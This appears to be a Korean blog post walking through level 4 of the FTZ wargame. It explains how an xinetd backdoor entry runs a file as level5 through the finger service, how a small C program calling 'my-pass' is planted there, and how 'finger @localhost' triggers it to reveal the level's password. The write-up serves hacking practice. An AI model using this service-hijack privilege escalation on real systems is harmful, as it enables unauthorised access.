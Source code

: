 ```yaml
---
layout: post
title: ! "[FTZ] level 4"
categories: [FTZ]
excerpt: " "
comments: true
share: true
tags:
  - FTZ
---
```


id = level4 pw = level4

![]({{ site.baseurl }}/assets/posts/ftz/level4.png)

level4 의 hint를 보면 누군가 `/etc/xinetd.d/에 백도어를 심어놓았다!` 라고 뜬다.
디렉토리 이동을 하고 파일 목록을 보면 backdoor가 보인다.

![]({{ site.baseurl }}/assets/posts/ftz/xinetd.png)

backdoor 파일은 read 할 수 있고, 열어보면 아래와 같이 뜬다.

```c
[level4@ftz xinetd.d]$ cat backdoor
service finger
{
	disable	= no
	flags		= REUSE
	socket_type	= stream
	wait		= no
	user		= level5
	server		= /home/level4/tmp/backdoor
	log_on_failure	+= USERID

}
```

다른 파일들을 열었을때는 이런식으로 service (읽은 파일명) { ... } 인데

```c
[level4@ftz xinetd.d]$ cat services
# default: off
# description: An internal xinetd service, listing active services.
service services
{
	disable	= yes
	type		= INTERNAL UNLISTED
	port		= 9098
	socket_type	= stream
	protocol	= tcp
	wait		= no
	only_from	= 127.0.0.1
}
```

backdoor는 `service finger` 가 뜬다.

그럼 finger를 보자.

```c
[level4@ftz xinetd.d]$ cat finger
# default: on
# description: The finger server answers finger requests. Finger is \
#	a protocol that allows remote users to see information such \
#	as login name and last login time for local users.
service finger
{
	disable	= yes
	socket_type	= stream
	wait		= no
	user		= nobody
	server		= /usr/sbin/in.fingerd
}
```

우선, backdoor의 server 부분  /home/level4/tmp/ 로 이동하면 아무 파일도 없다.
그럼 이 디렉토리에 level5의 패스워드를 알려주도록 코드를 짜서 backdoor 로 만들면 어떨까

```c
#include<stdio.h>
#include<stdlib.h>

int main(void) {
        system("my-pass");
        return 0;
}
```

그냥 backdoor를 실행시켜 버리면 level4의 pw가 뜨므로 소용이 없다.
finger를 이용해야 하는데, finger 명령어는 리눅스에서 사용자의 계정정보를 확인하는 명령어이다.
$finger @host명을 입력하면 해당서버에 접속해 있는 모든 유저의 정보를 출력한다.
그래서 $ finger @localhost 를 입력해 finger 서비스를 실행시키면 된다.

![]({{ site.baseurl }}/assets/posts/ftz/level4_clear.png)

`Level5 Password is "what is your name?".`
